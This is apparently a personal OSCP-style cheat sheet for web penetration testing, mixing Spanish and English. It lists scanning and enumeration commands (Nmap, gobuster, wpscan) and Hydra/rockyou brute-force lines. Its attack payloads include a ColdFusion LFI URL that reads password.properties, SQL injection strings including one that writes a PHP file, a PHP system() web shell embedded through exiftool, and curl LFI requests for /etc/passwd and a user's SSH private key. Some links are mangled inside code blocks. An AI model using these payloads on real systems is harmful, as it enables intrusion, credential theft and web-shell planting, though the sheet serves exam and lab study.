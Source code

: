 
When executing Nmap, you may discover HTTP ports like 80, 81, 8080, 8000, 443, etc. There's a possibility of finding four HTTP ports on one machine.

-  In the very first step, run Nmap with an aggressive scan on all ports:

```sh
nmap -sC -sV -A -T4 -Pn -p80,81,8000,8080,443 192.168.146.101
```

- Simply copy the version name of the website and search on Google to find an exploit.

- Furthermore, Nmap reveals some files such as robots.txt, index.html, index.php, login.php, cgi-sys, cgi-mod, and cgi-bin.

- If you encounter a host error, find a hostname with port *53* or discover a name in the website source code, footer, contact us, etc.

- Then add that discovered domain in the /etc/hosts file to access the site.

```sh
gobuster dir -u http://<% tp.frontmatter["IPVictima"] %>  -w  /wd/directory-list-2.3-big.txt 
```

```sh
gobuster dir -u http://<% tp.frontmatter["IPVictima"] %>/noman -w  /wd/directory-list-2.3-big.txt (if you find noman then enumerate noman directory)
```

- With the help of content discovery, you will find hidden directories, CMS web logins, files, etc. This is a crucial step in OSCP+.

- Utilizing content discovery and Nmap, you can identify CMS, static pages, dynamic websites, and important files like databases, .txt, .pdf, etc. Additionally, you can enumerate websites with automated tools such as WPScan, JoomScan, Burp Suite, and uncover web vulnerabilities like RCE, SQLi, upload functionality, XSS, etc.

 If you find any CMS like WordPress, Joomla, etc., simply search on Google for default credentials or exploits of theme, plugin, version etc. In the case of a login page, you can exploit SQL injection and launch a brute-force attack with Hydra. If you identify any CMS, scan it with tools, perform enumeration with brute force, check default usernames and passwords, explore themes, plugins, version exploits, and search on Google. Alternatively, you can discover web vulnerabilities to gain initial access.

>[!example] Gobuster
> - [ ] Lanzado
>```sh
> gobuster dir -u http://<% tp.frontmatter["IPVictima"] %>/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 5
> 
>```
>- Enumeración ficheros
>-  [ ] Lanzado
>```sh
>gobuster dir -u http://<% tp.frontmatter["IPVictima"] %> -w /usr/share/wordlists/seclists/Discovery/Web-Content/common.txt -x pdf,txt -t 5
>```

### wpscan

```
wpscan --url http://<% tp.frontmatter["IPVictima"] %> --enumerate u
```

```
wpscan --url example.com-e vp --plugins-detection mixed --api-token API_TOKEN
```

```
wpscan --url example.com -e u --passwords /usr/share/wordlists/rockyou.txt
```

```
wpscan --url example.com -U admin -P /usr/share/wordlists/rockyou.txt
```

#### Drupal

```
droopescan scan drupal -u http://example.org/ -t 32
```

- find version 

```
 /CHANGELOG.txt
```

#### Adobe Cold Fusion

- check version 

```
 /CFIDE/adminapi/base.cfc?wsdl
```

- fckeditor Version 8  LFI 

```
http://server/CFIDE/administrator/enter.cfm?locale=../../../../../../../../../../ColdFusion8/lib/password.properties%00en
```

#### Elastix

- Google the vulnerabilities
- default login are admin:admin at /vtigercrm/
- able to upload shell in profile-photo

#### Joomla

- Admin page - /administrator
- Configuration files configuration.php | diagnostics.php | joomla.inc.php |  config.inc.php

#### Mambo

- Config files >> configuration.php | config.inc.php

#### Login page

- Try common credentials such as admin/admin, admin/password and falafel/falafel.
- Determine if you can enumerate usernames based on a verbose error message.
- Manually test for SQL injection. If it requires a more complex SQL injection, run SQLMap on it.
- If all fails, run hydra to brute force credentials.
- View source code
- Use default password
- Brute force directory first (s’’ometime you don't need to login to pwn the machine)
- Search credential by bruteforce directory
- bruteforce credential
- Search credential in other service port
- Enumeration for the credential
- Register first
- SQL injection
- XSS can be used to get the admin cookie
- Bruteforce session cookie

#### Web Vulnerability:

##### SQLi:

- Pentestmonkey cheatsheet
- Try admin'# (valid username, see netsparker sqli cheatsheet)
- Try abcd' or 1=1;--
- Use UNION SELECT null,null,.. instead of 1,2,.. to avoid type conversion errors
- For mssql,
- xp_cmdshell
- Use concat for listing 2 or more column data in one
- For mysql,
- try a' or 1='1 -- -
- A' union select "" into outfile "C:\xampp\htdocs\run.php" -- -'

##### File Upload:

- Change mime type
- Add image headers
- Add payload in exiftool comment and name file as file.php.png
- ExifTool 1. <?php system($_GET['cmd']); ?> //shell.php 2. exiftool "-comment<=shell.php" malicious.png 3. strings malicious.png | grep system

#### Git

Download .git

```sh
- mkdir <DESTINATION_FOLDER>
- ./[gitdumper.sh](https://www.linkedin.com/redir/redirect?url=http%3A%2F%2Fgitdumper%2Esh&urlhash=UJ3h&trk=article-ssr-frontend-pulse_little-text-block) <URL>/.git/ <DESTINATION_FOLDER>
- Extract .git content
- mkdir <EXTRACT_FOLDER>
- ./[extractor.sh](https://www.linkedin.com/redir/redirect?url=http%3A%2F%2Fextractor%2Esh&urlhash=ku3v&trk=article-ssr-frontend-pulse_little-text-block) <DESTINATION_FOLDER> <EXTRACT_FOLDER>
```

### LFI and RFI

```bash
# IF LFI FOUND then start with
- ../../../../etc/passwd
# SSH keys are
# By default, SSH searches for id_rsa, id_ecdsa, id_ecdsa_sk, id_ed25519, id_ed25519_sk, and id_dsa  | curl [http://rssoftwire.com/noman/index.php?page=../../../../../../../../../home/noman/.ssh/id_rsa](https://www.linkedin.com/redir/redirect?url=http%3A%2F%2Frssoftwire%2Ecom%2Fnoman%2Findex%2Ephp%3Fpage%3D%2E%2E%2F%2E%2E%2F%2E%2E%2F%2E%2E%2F%2E%2E%2F%2E%2E%2F%2E%2E%2F%2E%2E%2F%2E%2E%2Fhome%2Fnoman%2F%2Essh%2Fid_rsa&urlhash=NF3S&trk=article-ssr-frontend-pulse_little-text-block)
#with encode
- curl http://<% tp.frontmatter["IPVictima"] %>/cgi-bin/%2e%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd
```

#### SSL Enumeration

- Open a connection openssl s_client -connect $ip:443

